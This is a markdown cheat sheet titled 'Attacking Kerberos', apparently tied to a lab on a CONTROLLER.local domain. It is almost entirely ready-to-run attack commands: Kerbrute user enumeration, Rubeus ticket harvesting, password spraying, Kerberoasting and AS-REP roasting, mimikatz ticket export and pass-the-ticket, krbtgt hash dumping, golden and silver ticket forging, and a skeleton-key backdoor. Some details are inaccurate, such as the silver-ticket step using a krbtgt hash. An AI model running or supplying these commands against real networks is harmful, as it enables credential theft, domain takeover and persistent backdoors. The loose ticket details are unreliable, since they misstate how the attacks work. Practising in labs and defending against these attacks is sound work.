 # Attacking Kerberos 

## Enumeration w/ Kerbrute
```
./kerbrute userenum --dc CONTROLLER.local -d CONTROLLER.local User.txt
```

## Harvesting Tickets w/ Rubeus
This command tells Rubeus to harvest for TGTs every 30 seconds
```
Rubeus.exe harvest /interval:30
```
## Password-Spraying w/ Rubeus
```
Rubeus.exe brute /password:Password1 /noticket
```
## Kerberoasting w/ Rubeus & Impacket
```
Rubeus.exe kerberoast
```
```
cd /usr/share/doc/python3-impacket/examples/
sudo python3 GetUserSPNs.py controller.local/Machine1:Password1 -dc-ip MACHINE_IP -request
```
## AS-REP Roasting w/ Rubeus
```
Rubeus.exe asreproast
```
## Pass the Ticket w/ mimikatz
```
mimikatz.exe
privilege::debug           #Ensure this outputs [output '20' OK] (You need admin privileges)
sekurlsa::tickets /export  #This will export all of the .kirbi tickets into the directory that you are currently in.
kerberos::ptt <ticket>     #This will cache and impersonate the given ticket.
klist                      #Here were just verifying that we successfully impersonated the ticket by listing our cached tickets.
```
## Golden/Silver Ticket Attacks w/ mimikatz
Dump the krbtgt hash
```
mimikatz.exe
privilege::debug
lsadump::lsa /inject /name:krbtgt
```

Create a Silver Ticket
```
Kerberos::golden /user:Administrator /domain:controller.local /sid:<SID> /krbtgt:<NTLM hash> /id:1103
```
Create a Golden Ticket
```
Kerberos::golden /user:Administrator /domain:controller.local /sid:<SID> /krbtgt:<NTLM hash> /id:500
```
`misc::cmd` - this will open a new elevated command prompt with the given ticket in mimikatz.

`sid:` -> The sid of the service account.

`krbtgt` -> Put a service NTLM hash here.

`id` -> Put 500 to create golden tickets, change it to 1103 for silver tickets.

## Kerberos Backdoors w/ mimikatz (Skeleton Key)
```
mimikatz.exe
privilege::debug
misc::skeleton
```
